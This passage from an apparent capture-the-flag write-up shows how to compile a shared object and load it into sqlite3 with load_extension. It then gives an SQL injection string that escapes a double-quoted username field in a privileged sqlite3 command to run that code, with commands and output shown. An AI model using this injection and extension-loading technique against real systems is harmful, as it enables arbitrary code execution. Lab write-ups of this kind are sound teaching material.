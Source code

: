 

I'll compile that into a shared object:



    oxdf@hacky$ gcc -shared -fPIC poc.c -o poc.so
    oxdf@hacky$ file poc.so
    poc.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=1d5a4c0bc52b6a08141a4c04150203fbfc155bdf, not stripped



Now I'll run `sqlite3` and try to get it loaded. To run commands from
the command line, I'll need to give it a DB to open, but it doesn't have
to actually exist if I'm not querying any tables:



    oxdf@hacky$ sqlite3 does_not_exist.sql "select 1";
    1



The same way, I can call `load_extension`:



    oxdf@hacky$ sqlite3 does_not_exist.sql "select load_extension('./poc')";
    uid=1000(oxdf) gid=1000(oxdf) groups=1000(oxdf),115(netdev),123(nopasswdlogin),141(docker),999(vboxsf)



The fact that I see `id` output shows it ran my extension.

#### Injection

The program runs the following:



    /usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line \'UPDATE accounts_customuser SET is_active=1 WHERE username=\"%s\";\'



It is putting my input in double quote marks. So to inject out of that,
I need send something like:



    ",load_extension('./poc');-- -



That would make the SQL:



    UPDATE accounts_customuser SET is_active=1 WHERE username="",load_extension('./poc');-- -"



On my machine, I'll try that:



    oxdf@hacky$ sqlite3 does_not_exist.sql 'select "1",load_extension("./poc");-- -aaaaasdasda';
    uid=1000(oxdf) gid=1000(oxdf) groups=1000(oxdf),115(netdev),123(nopasswdlogin),141(docker),999(vboxsf)
    1|
